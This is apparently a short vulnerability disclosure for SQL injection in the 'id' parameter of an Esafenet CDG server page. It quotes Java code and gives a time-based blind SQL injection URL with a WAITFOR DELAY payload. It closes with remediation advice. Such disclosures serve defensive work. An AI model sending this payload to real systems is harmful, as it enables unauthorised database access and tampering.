

# Vulnerability Report



## Vulnerability Description

The following code contains an SQL injection vulnerability in the `id` parameter. An attacker can exploit this vulnerability to execute arbitrary SQL queries in the database, potentially leading to data leakage, data tampering, or other malicious activities.

## Vulnerable Code

```java
String id = request.getParameter("id");
GateWayService gateWayService = com.esafenet.ta.util.SpringContextUtil.getBean(GateWayService.class);
NetWorkInfo netWorkInfo = gateWayService.getNetWorkInfoByid(id);
String accessModel = "0";
String msg = HttpUtils.doGet(netWorkInfo.getEgmurl() + "/getGwServiceStatus", null);
accessModel = netWorkInfo.getGateMode();
```

## Vulnerability Type

SQL Injection

## Proof of Concept (PoC)

An attacker can trigger the SQL injection through the following URL:

```
https://uri/CDGServer3/content_top.jsp?id=1';WAITFOR DELAY '0:0:10'--
```

## Impact

This vulnerability may lead to:

- Database information leakage
- Data tampering
- Denial of Service (DoS) attacks

## Recommendations

1. Use prepared statements or parameterized queries to avoid concatenating user input directly into SQL statements.
2. Implement strict validation and sanitization of user input.
3. Apply the principle of least privilege to restrict database user permissions.